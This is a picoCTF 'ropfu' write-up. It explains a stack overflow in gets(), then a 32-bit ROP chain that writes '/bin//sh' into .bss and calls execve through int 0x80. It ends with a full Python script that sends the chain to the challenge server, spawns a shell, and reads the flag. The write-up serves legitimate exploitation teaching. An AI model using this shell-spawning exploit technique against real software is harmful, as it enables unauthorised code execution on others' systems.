# ropfu

`Category: Binary Exploitation` | `Source: picoCTF` | `Difficulty: Hard`

> What's ROP?
> Can you exploit the program to get the flag?

## First look

The source c file:

```c
#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);
}
```

The line that matters is `gets(buf)`. The documentation for `gets` says that it reads from `stdin` until a newline or EOF, but it does not know how large the
destination buffer is. Here the buffer is only 16 bytes, sending more than that starts
overwriting what comes after it on the stack.

So I treated this as a buffer overflow challenge first, before thinking about the ROP part.

## Checking the binary

I then checked the binary with `file`:



It is a 32 bit executable, so addresses and stack values are 4 bytes wide. I also checked the
protections:



The screenshot shows a canary, NX disabled, and no PIE.

In Ghidra, `vuln` shows the buffer at `[ebp-0x18]`. The saved return address is at `[ebp+4]`,
so the distance from the buffer to the return address is:



```text
0x18 + 4 = 28 bytes
```

That gives the padding:

```python
payload = b"A" * 28
```

## From overflow to ROP

After finding the offset, I still needed to decide what to overwrite the return address with, since there is no explicit win function unlike in the previous challenges.

The challenge title is `ropfu`, and the hint mentions getting a shell, so my next hypothesis was
that I needed to build the behavior from small instruction sequences already present in the
binary. That is the idea behind ROP.

I then looked up what a basic 32 bit Linux shell ROP chain usually tries to call, the common
target is:

```c
execve("/bin/sh", 0, 0)
```

`execve` replaces the current process with another program. Here, that program is `/bin/sh`, so
if the syscall works, the vulnerable program becomes a shell.

On 32 bit Linux, syscalls use `int 0x80`, and the arguments are passed through registers. For
`execve`, the setup is:

```text
eax = 11          syscall number for execve
ebx = "/bin/sh"   pointer to the string
ecx = 0           argv
edx = 0           envp
```

This gives a checklist, I need a string `/bin/sh` somewhere in memory, control over `eax`,
`ebx`, `ecx`, and `edx`, then an `int 0x80`.

## Finding memory for the string

First I checked if `/bin/sh` was already inside the binary:

```bash
strings vuln | grep /bin
```

Nothing came back, so I needed to write the string somewhere myself. I used `.bss`, a
writable memory section:


```text
.bss = 0x080e62c0
```

I did not need the exact start of `.bss`, only a writable address inside it with enough room for
`/bin//sh` and a null byte. I picked `0x080e63c0`, which is `0x100` bytes after the start, to
avoid writing directly on the first bytes of the section.

## Finding the gadgets

At this point I knew what I needed, so the gadget search had a purpose. I looked for a way to
put values into registers, a way to write four bytes into memory, and a way to trigger the
syscall.

In Ghidra I used `Search > Memory`, and searched for the instruction bytes directly. The bytes
come from the x86 opcodes:

```text
58 = pop eax
5a = pop edx
5b = pop ebx
59 = pop ecx
c3 = ret
89 02 = mov dword ptr [edx], eax
cd 80 = int 0x80
```

For example, to find `pop eax ; pop edx ; pop ebx ; ret`, I searched for:

```text
58 5a 5b c3
```



Ghidra finds it at `0x080583b8`:



I repeated the same process for the write gadget, searching for:

```text
89 02 c3
```





Then for `pop ecx ; ret`, I searched:

```text
59 c3
```





Finally, to trigger the syscall, I searched:

```text
cd 80
```





The useful gadgets I kept are:

```text
0x080583b8 : pop eax ; pop edx ; pop ebx ; ret
0x080590f2 : mov dword ptr [edx], eax ; ret
0x08049e29 : pop ecx ; ret
0x0804a3c2 : int 0x80
```

With the first two gadgets, I can write four bytes at a time.

```text
/bin  -> 0x080e63c0
//sh  -> 0x080e63c4
\x00  -> 0x080e63c8
```

Then I set the syscall registers and jump to `int 0x80`.

## Getting the flag

The exploit script follows the same order as the reasoning above. First it writes the string into
`.bss`, then it sets the registers for `execve`, and finally it jumps to `int 0x80`.

```python
import socket
import struct
import time

HOST = "saturn.picoctf.net"
PORT = 57718

p32 = lambda x: struct.pack("<I", x)

offset = 28
bss = 0x080e63c0

# gadgets found in Ghidra
pop_eax_edx_ebx = 0x080583b8
mov_edx_eax = 0x080590f2
pop_ecx = 0x08049e29
int80 = 0x0804a3c2

payload = b"A" * offset

# write "/bin//sh\x00" into .bss
payload += p32(pop_eax_edx_ebx) + b"/bin" + p32(bss) + p32(0) + p32(mov_edx_eax)
payload += p32(pop_eax_edx_ebx) + b"//sh" + p32(bss + 4) + p32(0) + p32(mov_edx_eax)
payload += p32(pop_eax_edx_ebx) + p32(0) + p32(bss + 8) + p32(0) + p32(mov_edx_eax)

# prepare execve("/bin//sh", 0, 0)
payload += p32(pop_eax_edx_ebx) + p32(11) + p32(0) + p32(bss)
payload += p32(pop_ecx) + p32(0)
payload += p32(int80)

with socket.create_connection((HOST, PORT)) as s:
    print(s.recv(4096).decode(errors="replace"), end="")
    s.sendall(payload + b"\n")
    time.sleep(0.5)
    s.sendall(b"cat flag.txt; cat flag\n")
    print(s.recv(4096).decode(errors="replace"))
```

The first three gadget blocks write the string four bytes at a time, because this is a 32 bit
binary. The last three lines prepare the syscall, `eax = 11`, `edx = 0`, `ebx = bss`, then
`ecx = 0`, and `int 0x80` asks the kernel to execute it.

I send the payload first, then wait a little before sending `cat flag`. The program is still
inside `gets` until it receives the newline after the payload, so if I send the payload and the
shell command too tightly together, part of `cat flag` can be consumed as normal input by `gets`
instead of being read later by the shell. Waiting briefly makes the sequence cleaner, the ROP
chain runs, `/bin/sh` starts, then the next command goes to the shell.

Running it gives:



```text
picoCTF{5n47ch_7h3_5h311_4cbbb771}
```
